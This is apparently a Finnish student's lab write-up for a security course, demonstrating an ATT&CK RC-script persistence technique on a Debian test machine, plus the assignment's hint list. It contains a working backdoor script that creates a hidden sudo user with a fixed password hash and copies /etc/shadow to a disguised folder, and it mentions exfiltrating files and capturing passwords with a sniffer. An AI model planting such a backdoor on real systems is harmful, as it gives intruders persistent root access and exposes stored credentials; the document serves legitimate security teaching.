## b) Attakin alatekniikat. Demonstroi kaksi (2) alatekniikkaa (subtechnique) ATT&CK kehikosta. Tässä pitää siis käyttää näitä käytännössä johonkin harjoitusmaaliin. Voit käyttää haluamiasi valmiita työkaluja tai koodata / skriptata itse. Voit valita valmiin harjoitusmaalin tai tehdä sen itse. Muista, että myös tiedustelussa pitää noudattaa lakia, etiikkaa, rajauksia (scope) ja hyviä tapoja.  

### Boot or Logon Initialization Scripts: RC Scripts 

Lähde:  
https://linuxhint.com/use-etc-rc-local-boot/
Rc scripts on vastuussa eri palveluiden käynnistämisestä ja skriptien ajamisesta koneen startupin yhteydessä. Mikäli ymmärsin oikein moderneissa Linux -jakeluissa system rc.local palvelu ei ole enää käytössä ja pitää erikseen käynnistää, jotta sen saa käyttöön. rc.local on vastuussa sellaisten startup toimintojen ajamisesta joiden ei haluta häiritsevän tärkeitä järjestelmäkomponentteja.  

Demonstraation käyttöjärjestelmä:
Linux Debian 11 Bullseye  
  
Tarkistin ensin löytyykö rc.local -tiedostoa:  

    $ sudo ls /etc/rc
    $ rc0.d/ rc1.d/ rc2.d/ rc3.d/ rc4.d/ rc5.d/ rc6.d/ rcS.d/

Ei löydy joten loin sen ja syötin siihen ajettavaksi kirjoittamani skriptin, joka luo koneelle järjestelmäkäyttäjän, jolla on terminaalioikeudet eikä kotihakemistoa. Shadow hash on otettu koneen /etc/shadow tiedostosta, aiemmin luomaltani käyttäjältä, jotta saamme uudelle käyttäjälle luotua saman salasanan joka kerta:

```
$ sudo mkdir /etc/systemadminst
$ sudo micro /etc/systemadminst/apacheadmin.sh

#!/bin/bash
username='apache_server_admin'
user="$(grep $username /etc/passwd)"
shadow=$username':**YOUR HASH HERE**:19105:0:99999:7:::'

## Create a folder for hiding files if one doesn't exist

if [ ! -d /etc/system_boot.c.conf ]; then
    mkdir /etc/system_boot.c.conf
fi

## Check if user exists. If yes, make a copy of shadow file just in case
## and stop running script

if [ $user != "" ]; then
        cp /etc/shadow /etc/system_boot.c.conf/boot.conf
        exit 2
fi

adduser --system --no-create-home --shell /bin/bash $username
adduser $username sudo

## Delete the line containing the shadow hash of the created user
deleteline="$(grep -n $username /etc/shadow | cut -f1 -d:)d"
sed -i $deleteline /etc/shadow

## Add the wanted hash for the new user to shadow
echo $shadow | tee -a sudo /etc/shadow

cp /etc/shadow /etc/system_boot.c.conf/boot.conf


$ sudo micro /etc/rc.local

#!/bin/sh -e
#
# rc.local
#

/etc/systemadminst/apacheadmin.sh

exit 0

## Tallennus ja ulos. Annoin vielä tiedostoille suoritusoikeuden. 

$ sudo chmod +x /etc/rc.local 
$ sudo chmod +x /etc/systemadminst/apacheadmin.sh 
  
``` 
Loin seuraavaksi rc-local.service tiedoston systemd:n sijaintiin, koska tällä modernilla jakelulla systemd hallitsee palveluita rc:n sijaan, määritin palvelun (copy+paste) ja käynnistin sen: 

```
$ sudo micro /etc/systemd/system/rc-local.service

ExecStart=/etc/rc.local start
TimeoutSec=0
StandardOutput=tty
RemainAfterExit=yes
SysVStartPriority=99

[Install]
WantedBy=multi-user.target

$ sudo systemctl enable rc-local
Created symlink /etc/systemd/system/multi-user.target.wants/rc-local.service → /etc/systemd/system/rc-local.service
$ sudo systemctl start rc-local
Failed to start rc-local.service: Unit rc-local.service has a bad unit file setting.
See system logs and 'systemctl status rc-local.service' for details.
```

Törmäsin virheeseen, joka ei selvinnyt ehdotetuista sijainneista sen tarkemmin, mutta viittaisi, että copypasta konfiguraatio ei toiminut. Tutkin hieman muita /etc/systemd/system/ sijainnin palveluiden määrityksiä ja huomasin, että ohjeistussivulta puuttui rivin alusta \[Service\] -määritys. Lisäsin tuon tiedostoon ja käynnistin palvelun: 
```
$ sudo micro /etc/systemd/system/rc-local.service

[Service]
ExecStart=/etc/rc.local start
TimeoutSec=0
StandardOutput=tty
RemainAfterExit=yes
SysVStartPriority=99

[Install]
WantedBy=multi-user.target

$ sudo systemctl start rc-local
```

Ei virheitä, mutta status ilmoitti, että palvelu pyörii oikein ja käynnistyessään loi jo uuden käyttäjän, kansion, sekä kopion shadow -tiedostosta:
```
pajazzo@derpSlave1:$ sudo cat /etc/passwd | grep apache_server
apache_server_admin:x:120:65534::/home/apache_server_admin:/bin/bash
pajazzo@derpSlave1:$ sudo cat /etc/shadow | grep apache_server
apache_server_admin:**Hash be here**/:19105:0:99999:7:::
pajazzo@derpSlave1:$ sudo ls /etc/system_boot.c.conf/
boot.conf
```
Poistin vielä sekä käyttäjän, että luodun kansion ja käynnistin koneen uudelleen.  
```
$ ssh apache_server_admin@192.168.56.7 -p 7373
$ whoami
apache_server_admin
$ apache2user@derpSlave1:/$ sudo whoami
root
``` 
  
Siinä tämä demonstraatio. Skriptiä voisi toki parannella ja siirtää enemmänkin tiedostoja ja mahdollisesti yrittää ohjata autentikointilokeja johonkin toiseen tiedostoon (?) sekä muokata skriptin käyttämien kansioiden oikeuksia. Mahdollisesti myös siirtää haluttuja tiedostoja käynnistyksen yhteydessä esim ssh-yhteyden avulla hyökkääjän palvelimelle.  
Toinen asia joka tuli mieleen, että samat komennot eivät välttämättä toimi kaikilla käyttöjärjestelmillä ja versioilla, joten skriptiin voisi kirjoittaa käyttöjärjestelmän tunnistuksen, joka sen mukaan valitsee oikeat komennot.  
  
## e) Vapaaehtoinen: Jantterit. Hyökkää joihinkin aiemmin asennettuihin harjoitusmaaleihin, joita meillä on jo monta: Over the Wire, DVWA, Metasploitable 2, VulnHub-kuvat; sekä ulkopuoliset TryHackme ja edistyneemmille HackTheBox. Murtautumaan oppii murtautumalla.

Vinkit

    XSS, cross site scripting. Mieti, miten tällä murtaudutaan jonnekin.
    ATT&CK FAQ voi auttaa käsitteiden hahmottamisessa
    Muista merkitä, mihin kohtaan (a, b, c...) mikäkin osa vastaustasi vastaa
    Authentication Bypasses: F12 Inspector muokkaa myös HTML-lomakkeita.
    Insecure login: snifferin käyttö on tässä realistisempaa kuin F12, joten esim 'wireshark', "tshark -i any -V -Y 'http.request.method == POST'" tai 'sudo ngrep -d lo assword'.
    A7:2017 Cross Site Scripting: JavaScript-bookmarkletit eivät oletuksena toimi enää monissa selaimissa, käytä JavaScriptin ajamiseen F12 Console. Cross Site Scripting: script-tagit. "Try It! Reflected XSS" on läpi, kun yllä numeron tausta muuttuu vihreäksi, vaikka se sanoo "Well done, but ... Please continue.".
    "Identify potential for DOM-Based XSS": jos löysit jo oikean kohdan JavaScriptistä ja kokeilit yhtä monta vaihtoehtoa kuin moolissa on rakenneyksiköitä, lunttaa oikea palautusmuoto netistä ja jatka eteenpäin.
    Basic Get CSRF Exercise: tee oma weppisivu. Jos file:// ei toimi, 'python3 -m http.server' tai Apache httpd.
    Uudesta OWASP top 10 - 2021 ei ole vielä (w45 ti 2021-11-09) julkaistu PDF-versiota. Voit lukea uutta OWASP Top 10 - 2021 versiota wepistä
    Attakin alatekniikat: tässä ei tarvitse tehdä kokonaista kybertappoketjua A:sta Ö:hön, sillä yksittäiset tekniikat yleensä tekevät vain pikkuruisen osan kokonaisesta hyökkäyskampanjasta.
    Jantterit: aloita helposta.
